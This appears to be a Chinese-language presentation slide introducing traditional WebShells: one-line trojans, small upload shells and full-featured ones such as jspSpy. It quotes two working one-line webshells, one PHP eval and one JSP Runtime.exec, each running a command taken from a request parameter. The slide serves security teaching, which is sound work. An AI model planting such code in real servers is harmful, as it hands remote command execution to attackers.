

# 基本概念
传统WebShell回忆：

WebShell之一句话木马：
在php中：<?php @eval($_POST['cmd']);?>
在java中：<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>

WebShell之小马：
体积小、容易被上传，一般只具备文件上传功能。

WebShell之一句话大马：
体积大、功能全，具有文件管理、数据库管理、账号权限管理的能力，可以理解为是一个集成的Shell合集。例如：jspSpy。

8